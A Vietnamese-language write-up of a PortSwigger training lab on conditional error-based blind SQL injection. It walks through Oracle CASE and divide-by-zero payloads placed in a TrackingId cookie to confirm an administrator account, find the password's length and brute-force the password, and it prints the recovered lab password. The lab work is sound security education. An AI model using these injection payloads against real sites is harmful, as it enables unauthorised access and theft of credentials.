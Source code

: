 # 🔍 Error-Based SQL Injection – PortSwigger Lab Writeup

Hello mọi người!Chào mừng đến với writeup đầu tiên của mình về khai thác SQL Injection để tìm mật khẩu của một tài khoản.Bài lab này được thực hiện trên nền tảng PortSwigger Web Security Academy.

> ⚠️ Nếu bạn không có nền tảng về bảo mật, có thể sẽ hơi khó hiểu. Nhưng bạn có thể coi đây là các bước "hack mật khẩu" trong môi trường mô phỏng.Lưu ý: Đây chỉ là lab để luyện tập, trong thực tế hiện nay các web hiện đại đã bảo mật tốt hơn nhiều

## Condition error based SQLi

### 1. Vấn đề của Blind SQLi

Phản hồi của giao diện không thay đổi dù truy vấn SQL có trả về giá trị hay không. Ứng dụng không hiện thị dữ liệu truy vấn
`OR 1=1 OR 1==2` thì giao diện trả về giống nhau nên không dùng được.

### 2. Tạo lỗi có điều kiện ( Conditional Error )

Cố tình gây lỗi trong câu truy vấn SQL nhưng trong DK bạn chèn vào là đúng

Khi lỗi xảy ra thì giao diện có thể hiện thị lỗi

`SELECT * FROM users WHERE username = '$input'`

`' AND (SELECT 1/0 FROM dual WHERE 'a'='a') -- `

### 3. Các kiến thức sử dụng

```sql
CASE
    WHEN điều_kiện_1 THEN giá_trị_1
    WHEN điều_kiện_2 THEN giá_trị_2
    ...
    ELSE giá_trị_mặc_định
END
```

```sql
CASE biểu_thức
    WHEN giá_trị_1 THEN kết_quả_1
    WHEN giá_trị_2 THEN kết_quả_2
    ...
    ELSE kết_quả_mặc_định
END
```

Note: các nhánh phải cùng kiểu dữ liệu.

Ví dụ:

```sql
SELECT
  CASE department_id
    WHEN 10 THEN 'HR'
    WHEN 20 THEN 'IT'
    ELSE 'Other'
  END AS department_name
FROM employees;
```

Khi điều kiện where đúng mới có dòng trả về nen mới thực thi select.
Ngược lại sẽ trả về 0 dòng nên không thực thi select.

### 4. Giải lab

Chúng ta sẽ khai thác lỗi ở TrackingID
TrackingId thường là một giá trị cookie được server dùng để:
Ghi lại hoạt động của người dùng (tracking).
Liên kết với session hoặc log để phân tích hành vi.
Tùy biến giao diện hoặc nội dung cho người dùng.

Chúng ta sẽ dùng burpsuite để khai thác lỗ hông này

Let's go!!!

- Bước 1. Thử trackingID có bị SQLi không
  ![alt text](image.png)
  ![alt text](image-1.png)

Chèn `trackingID = abc'` thì bị lỗi còn abc'' thì không bởi vì nó sẽ hiểu là
trackingID chuỗi thực tế là abc' ( vì '' là cách escape dấu ' )
-> Có SQLi

- Bước 2. thử `abc'||( select '' from dual)|| '` . Nhớ đặt select trong dấu () nhé, nếu không nó sẽ không hiểu là nối chuỗi đâu!
  trong oracle '' = NULL trong mysql
  ![alt text](image-2.png)

-> Ta có thể biết hệ thống dung oracle( dual la bảng ảo trong oracle)
và server không filter, có thể chạy lệnh sql hợp lệ

- Bước 3. Thử truy vấn 1 bảng không có thật để chứng minh câu sql có được thực thi thực sự trên dữ liệu
  backend hay không.

* FROM dual: giống như bạn bắn tín hiệu, thấy "server có nghe".
* FROM not_a_real_table: giống như bạn hỏi một câu khó, server nói "không có cái đó!" → server thật sự đang hiểu và trả lời SQL,
  Để làm chắc chắn hơn có thẻ thực thi Sql vì đây là blind SQLi
  ![alt text](image-3.png)

- Bước 4. Test điều kiện đúng/sai bằng lõi chia cho 00

`Cookie: TrackingId=WMIqZXutPPFpM9id'||(select CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE ''END from dual) ||'`
![alt text](image-4.png)
`Cookie: TrackingId=WMIqZXutPPFpM9id'||(select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE ''END from dual) ||'`
![alt text](image-5.png)

- Bước 5. Kiểm tra sử tồn tại của administrator trong bảng users (Đề bài cho )

`Cookie: TrackingId=WMIqZXutPPFpM9id'||(select CASE WHEN (1=22) THEN TO_CHAR(1/0) ELSE ''END from users where username = 'administrator') ||'`
![alt text](image-6.png)
`Cookie: TrackingId=WMIqZXutPPFpM9id'||(select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE ''END from users where username = 'administrator') ||'`
![alt text](image-7.png)

- Bước 6. Tính độ dài của password

![alt text](image-8.png)
![alt text](image-9.png)

Password có độ dài bằng 20 kí tự .

- Bước 7. Brute force password.

Lab cho pw chỉ có kí từ a-z , 0-9 ( simple list).
Đừng hỏi tại sao lại chỉ dùng list này để dò mật khẩu.

Bước này hãy dùng Intruder để brute nhé. Sau pro hơn minh sẽ dùng python(Hãy đợi writeup tiếp theo).
Dùng Intruder như nào thì tự tìm hiểu nhé!

- Thành công lấy mật khẩukhẩu
![alt text](image-11.png)

password ="sbeu0dvy8fgrd2of14mw"
![alt text](image-12.png)
![alt text](image-13.png)

**Đăng nhập thành công!**

